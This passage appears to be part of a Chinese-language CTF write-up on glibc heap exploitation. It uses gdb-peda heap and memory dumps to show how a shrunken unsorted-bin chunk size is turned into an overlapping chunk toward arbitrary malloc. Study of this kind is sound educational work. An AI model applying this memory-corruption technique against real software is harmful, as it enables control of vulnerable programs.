 ```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
                  top: 0x603260 (size : 0x20da0)
       last_remainder: 0x0 (size : 0x0)
            unsortbin: 0x603050 (size : 0x100)
```

unsortbin的chunk size被看成是0x100了，但是在看看chunk3的prev_size還是原本的0x110

這中間一共少了0x10個byte!!!接下來要利用這騙過glibc做出一個overlap chunk達到任意malloc!!!

現在我們已經有一個size壞掉的unsortbin了接下來我們add一塊small bin大小的secret

p.s 由於size必須要大於0x90才會是small bin!!!

```
malloc(0x90)
```
由於unsortbin有一塊空的chunk所以這次malloc將會從unsortbin分配出來
```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
                  top: 0x603260 (size : 0x20da0)
       last_remainder: 0x6030f0 (size : 0x60)
            unsortbin: 0x6030f0 (size : 0x60)
```
分配完之後的unsotrbin變這樣，空間還有0x60

這邊有個小小的地方需要注意雖然是malloc(0x90)，但實際上分配到的chunk size會是0x90+0x10

多出來的0x10是prev_size跟size!!所以unsortbin才會剩下0x60的空間(0x100-(0x90+0x10))

由於空間只剩0x60所以只能在malloc一塊size 0x50的chunk
```
malloc(0x50)
```
然後依序把size 0x90(chunk2)跟size 0xf0(chunk3)的secret刪除掉
```
free(0x90)
free(0xf0)
```
```
gdb-peda$ x/100gx 0x00603000
0x603000:	0x0000000000000000	0x0000000000000051
0x603010:	0x3131313131313131	0x3131313131313131 <- chunk1
0x603020:	0x3131313131313131	0x3131313131313131
0x603030:	0x3131313131313131	0x3131313131313131
0x603040:	0x3131313131313131	0x3131313131313131
0x603050:	0x3131313131313131	0x0000000000020fb1 <- top chunk
0x603060:	0x00007ffff7dd67b8	0x00007ffff7dd67b8 <- 原本的chunk2
                        ...
0x6030f0:	0x00000000000000a0	0x0000000000000060
0x603100:	0x3333333333333333	0x3333333333333333 <- chunk4
0x603110:	0x3333333333333333	0x3333333333333333
0x603120:	0x0000000000000033	0x0000000000000000
0x603130:	0x0000000000000000	0x0000000000000000
```